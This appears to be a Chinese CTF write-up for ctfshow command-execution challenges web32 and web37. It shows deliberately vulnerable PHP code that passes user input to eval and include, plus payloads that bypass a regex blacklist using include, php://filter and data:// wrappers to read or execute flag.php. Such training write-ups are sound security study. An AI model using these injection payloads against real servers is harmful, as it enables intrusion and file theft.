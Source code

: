 # ctfshow命令执行
## 命令执行

参考链接：

[CTFSHOW命令执行](http://t.csdnimg.cn/9jvpb)

### web32

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
}else{
    highlight_file(__FILE__);
}
```

参数过滤的多，利用文件包含

include不用括号，分号可以用?>代替，php最后一句代码不需要`分号`。

payload:

```php
include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
include$_GET[1]?>&1=data://text/plain,<?php system('tac flag.php');?>
```

### web37

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    }
        
}else{
    highlight_file(__FILE__);
}
```

有文件包含的函数，用伪协议

```php
include //只生成警告(E_WARNING)，并且脚本会继续
require //require 会生成致命错误(E_COMPILE_ERROR)并停止脚本
include_once
require_once 等
```
